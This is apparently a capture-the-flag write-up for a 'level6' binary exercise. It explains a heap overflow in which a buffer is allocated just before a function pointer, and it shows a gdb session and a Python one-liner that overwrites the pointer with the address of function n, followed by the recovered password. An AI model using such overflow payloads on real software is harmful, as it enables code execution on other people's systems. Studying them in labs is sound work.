 We have rewritten the code, and it's pretty explicit: \
the main allocates a pointer to the function `m` that we can override because its allocated juste after the first malloc which is our buffer where we write to. \
So we only need to fill the buffer, write a few more bytes to override malloc's header, and then we can write the address of the funtion n to get the password:
```shell
$ gdb ./level6

(gdb) p n
$4 = {<text variable, no debug info>} 0x8048454 <n>

(gdb) quit

$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

